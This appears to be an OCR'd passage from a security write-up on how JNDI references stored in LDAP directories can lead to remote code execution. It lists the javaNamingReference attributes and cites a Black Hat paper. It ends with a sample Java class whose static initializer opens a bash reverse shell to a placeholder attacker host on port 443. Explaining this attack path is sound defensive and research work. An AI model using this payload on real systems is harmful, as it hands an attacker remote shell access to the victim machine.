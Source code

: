 ## What Can Be Stored in Those Remote Locations?

* JNDI directory naming services have the ability to store `Java objects` and share them between applications.
* Instead of returning a simple string such as `Roberto`, a `Java object` can be returned or referenced from another location.

## Requesting and Referencing Java objects in an LDAP directory (RFC 2713) 

According to [A-Journey-From-JNDI-LDAP-Manipulation-To-RCE paper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) Java objects can be represented and stored in a Directory Service as a `JNDI Reference` or `Serialized Object`:

### JNDI References

A JNDI `Reference` is a Java object of class `javax.naming.Reference`.
It consists of class information about the object being referenced and an ordered list of addresses.
A reference also contains information to assist in the creation of an instance of the object to which the reference refers.
It contains the Java class name of that object, and the class name and location of the object factory to be used to create the object.

It is represented in the directory using the following attributes:

| Attribute | Definition |
| --- | --- |
| objectClass | javaNamingReference |
| javaClassName | Records the class name of the serialized object so that applications can determined class information without having to first deserialize the  object. |
| javaClassNames | Additional class information about the serialized object. |
| javaCodebase | Location of the class definitions needed to instantiate the factory class. |
| javaReferenceAddress | Multivalued optional attribute for storing reference addresses. |
| javaFactory | Optional attribute for storing the object factory's fully qualified class name. |

A few notes:
* The `javaCodebase` attribute can be any URL (e.g. http://untrusted-ip-address/) as long as the `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true`.
*  The `javaFactory` class is downloaded from the `javaCodebase` location as bytes.

A class can be something as simple as:

```
public class Run {
  static {
    try {
      String[] arrayOfString = {"/bin/bash","-c","/bin/bash -i >& /dev/tcp/untrusted-ip-address/443 0>&1"};
      Runtime runtime = Runtime.getRuntime();
      Process process = runtime.exec(arrayOfString);
      process.waitFor();
    }
    catch (Exception exception) {
      System.out.println(exception.toString());
    }
  }
}
```
